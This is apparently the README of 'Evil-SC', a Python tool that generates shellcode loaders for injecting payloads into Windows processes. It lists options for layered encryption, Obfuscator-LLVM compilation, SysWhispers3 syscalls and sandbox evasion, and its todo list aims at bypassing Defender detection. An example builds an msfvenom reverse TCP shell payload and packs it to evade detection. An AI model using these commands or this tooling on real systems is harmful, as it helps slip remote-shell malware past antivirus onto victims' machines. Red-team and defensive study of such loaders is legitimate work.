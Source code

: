 # Evil-SC - Template-based Shellcode Loader

## Introduction
Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for injecting shellcode into a target process, using different methods and encoders.

!! WORK IN PROGRESS !!

## Todo
- LLVM compiler --> Bypass SW3 defender detection (HackTool:Win64/NanoDump.LK!MTB) ?
- Functions name randomization ?
- uuid + DES3 bug 
- Indirect Syscall ?
[....]
- Make new Sandbox evasion templates
- Make new methods templates

## Usage
1. Clone the repository:
```bash
git clone https://github.com/your_username/evil-sc.git
cd evil-sc
```

2. Run the script
```
$ python evil-sc.py windows -h

    ███████╗██╗   ██╗██╗██╗      ███████╗ ██████╗
    ██╔════╝██║   ██║██║██║      ██╔════╝██╔════╝
    █████╗  ██║   ██║██║██║█████╗███████╗██║
    ██╔══╝  ╚██╗ ██╔╝██║██║╚════╝╚════██║██║
    ███████╗ ╚████╔╝ ██║███████╗ ███████║╚██████╗
    ╚══════╝  ╚═══╝  ╚═╝╚══════╝ ╚══════╝ ╚═════╝
                                                 @v4resk

usage: evil-sc.py windows [-h] -m {SimpleExec,CurrentThread,CreateThread} [-e {nop,rc4,uuid,base64,aes,des3,xor}] [-l] [-p PROCESS_NAME] [-se {sleep}]
                          [-sc {SysWhispers3,GetSyscallStub}] [--sw-method {embedded,egg_hunter,jumper,jumper_randomized}] [-o OUTPUT_FILE] [--encoder ENCODER]
                          shellcode

positional arguments:
  shellcode             Specify the shellcode variable

options:
  -h, --help            show this help message and exit
  -m {SimpleExec,CurrentThread,CreateThread}, --method {SimpleExec,CurrentThread,CreateThread}
                        Shellcode-loading method
  -e {nop,rc4,uuid,base64,aes,des3,xor}, --encrypt {nop,rc4,uuid,base64,aes,des3,xor}
                        Template-dependent encryption or encoding method to be applied to the shellcode
  -l, --llvmo           Use Obfuscator-LLVM to compile
  -p PROCESS_NAME, --process PROCESS_NAME
                        Process name for shellcode injection
  -se {sleep}, --sandbox-evasion {sleep}
                        Sandbox evasion technique
  -sc {SysWhispers3,GetSyscallStub}, --syscall {SysWhispers3,GetSyscallStub}
                        Syscall execution method for supported templates
  --sw-method {embedded,egg_hunter,jumper,jumper_randomized}
                        Syscall execution method for supported templates
  -o OUTPUT_FILE, --outfile OUTPUT_FILE
                        Output filename
  --encoder ENCODER     Template-independent encoding method to be applied to the shellcode (default: sgn)

```

## Example

```bash
# Generate a shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o /tmp/msfout.bin

# Pack it
python evil-sc.py windows -m SimpleExec -e xor -e aes -e nop -l -sc SysWhispers3 /tmp/msfout.bin
```

## Make a template

Windows template should start with "Win_"
Linux template should start with "Lin_"

## Resources

There is a lot to come here